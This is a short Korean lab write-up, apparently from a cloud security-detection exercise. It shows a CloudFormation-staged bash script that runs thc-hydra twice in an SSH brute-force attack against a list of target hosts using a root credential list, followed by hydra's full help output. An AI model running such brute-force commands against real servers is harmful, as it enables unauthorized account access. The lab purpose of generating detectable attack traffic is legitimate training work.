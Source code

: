 

22번 포트가 열린 것을 확인하고 클라우드 포메이션으로 준비한 스크립트 동작 시킴 > Brutueforce 공격 실행

![](https://velog.velcdn.com/images/yuran3391/post/0e90926c-5874-4cf3-b72f-92784d889864/image.png)

```
# Create SSH Brute Force script
cat <<EOT >> /home/ubuntu/ssh-bruteforce.sh
#!/bin/bash
/usr/local/bin/hydra -C /home/ubuntu/thc-hydra/dpl4hydra_root.lst -M /home/ubuntu/targets.txt ssh -t 4
/usr/local/bin/hydra -C /home/ubuntu/thc-hydra/dpl4hydra_root.lst -M /home/ubuntu/targets.txt ssh -t 4
EOT
chmod 744 /home/ubuntu/ssh-bruteforce.sh
chown ubuntu /home/ubuntu/ssh-bruteforce.sh
```

해당 스크립트는 Compromised Host에 대해 thc-hydra 툴을 이용하여 Bruteforce 공격을 2회에 걸쳐 수행합니다.
![](https://velog.velcdn.com/images/yuran3391/post/77ded4bf-85ec-496c-8406-36a893bf07c4/image.png)


10분정도 기다려야함

hydra 참고 (해킹툴임)
```
$ hydra -h
Hydra v9.5-dev (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [-m MODULE_OPT] [service://server[:PORT][/OPT]]

Options:
  -R        restore a previous aborted/crashed session
  -I        ignore an existing restore file (don't wait 10 seconds)
  -S        perform an SSL connect
  -s PORT   if the service is on a different default port, define it here
  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -x MIN:MAX:CHARSET  password bruteforce generation, type "-x -h" to get help
  -y        disable use of symbols in bruteforce, see above
  -r        use a non-random shuffling method for option -x
  -e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
  -u        loop around users, not passwords (effective! implied with -x)
  -C FILE   colon separated "login:pass" format, instead of -L/-P options
  -M FILE   list of servers to attack, one entry per line, ':' to specify port
  -o FILE   write found login/password pairs to FILE instead of stdout
  -b FORMAT specify the format for the -o FILE: text(default), json, jsonv1
  -f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
  -t TASKS  run TASKS number of connects in parallel per target (default: 16)
  -T TASKS  run TASKS connects in parallel overall (for -M, default: 64)
  -w / -W TIME  wait time for a response (32) / between connects per thread (0)
  -c TIME   wait time per login attempt over all threads (enforces -t 1)
  -4 / -6   use IPv4 (default) / IPv6 addresses (put always in [] also in -M)
  -v / -V / -d  verbose mode / show login+pass for each attempt / debug mode
  -O        use old SSL v2 and v3
  -K        do not redo failed attempts (good for -M mass scanning)
  -q        do not print messages about connection errors
  -U        service module usage details
  -m OPT    options specific for a module, see -U output for information
  -h        more command line options (COMPLETE HELP)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)
```